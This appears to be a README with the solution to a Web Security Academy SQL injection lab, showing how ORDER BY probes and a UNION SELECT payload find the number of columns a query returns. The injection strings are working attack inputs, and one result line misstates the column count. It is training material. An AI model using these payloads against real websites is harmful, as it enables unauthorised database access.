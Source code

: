 # SQL Injection Lab 07 - SQL injection UNION attack, determining the number of columns returned by the query

## Manual Solution

### 1. Access the lab in Web Security Academy
### 2. Determine the number of columns for UNION attack
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 4--`
   - Result: Error (confirms 3 columns)

### 3. Append injection to the URL:
   - Test: `/filter?category=Gifts' UNION SELECT null,null,null--`
   - Result: Congratulations, you solved the lab!

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_07.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

